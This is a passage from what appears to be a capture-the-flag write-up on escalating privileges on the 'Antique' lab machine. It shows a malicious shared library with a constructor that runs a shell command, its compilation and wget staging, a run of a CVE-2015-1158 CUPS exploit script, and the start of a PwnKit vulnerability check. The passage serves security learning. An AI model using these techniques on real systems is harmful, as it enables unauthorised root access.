 

I'll create a simple `.so` file:



    #include<stdio.h>
    #include<stdlib.h>

    void __attribute__((constructor)) evil();

    void main() {};

    void evil() {
        system("touch /0xdf");
    }



If this works, it will create a file at the filesystem root.

I'll compile it:



    oxdf@hacky$ gcc -shared -o so.so -fPIC so.c 



And upload it to Antique using a Python webserver on my host and `wget`
on Antique. Now, I'll run the exploit through the tunnel:



    oxdf@hacky$ python2 cve-2015-1158.py -a 127.0.0.1 -b 9631 -c /tmp/so.so
    ...[snip]...
    [*]     locate available printer
    [-]     no printers



It fails because there are no printers available (something I noted
above in the admin website).

### PwnKit

#### Find Vulnerable

Something like
[LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
will identify this host is vulnerable. This [post from
Datadog](https://www.datadoghq.com/blog/pwnkit-vulnerability-overview-and-remediation/)
shows how to manually check by running `dpkg -s policykit-1`:



    lp@antique:/dev/shm$ dpkg -s policykit-1
    Package: policykit-1
    Status: install ok installed
    Priority: optional
    Section: admin
    Installed-Size: 560
    Maintainer: Ubuntu Developers <ubuntu-devel-discuss@lists.ubuntu.com>
    Architecture: amd64
    Multi-Arch: foreign
    Version: 0.105-26ubuntu1.1
    Depends: dbus, libpam-systemd, libc6 (>= 2.7), libexpat1 (>= 2.0.1), libglib2.0-0 (>= 2.37.3), libpam0g (>= 0.99.7.1), libpolkit-agent-1-0 (= 0.105-26ubuntu1.1), libpolkit-gobject-1-0 (= 0.105-26ubuntu1.1), libsystemd0 (>= 213)
    Conffiles:
     /etc/pam.d/polkit-1 7c794427f656539b0d4659b030904fe0
     /etc/polkit-1/localauthority.conf.d/50-localauthority.conf 2adb9d174807b0a3521fabf03792fbc8
     /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf c4dbd2117c52f367f1e8b8c229686b10
    Description: framework for managing administrative policies and privileges
     PolicyKit is an application-level toolkit for defining and handling the policy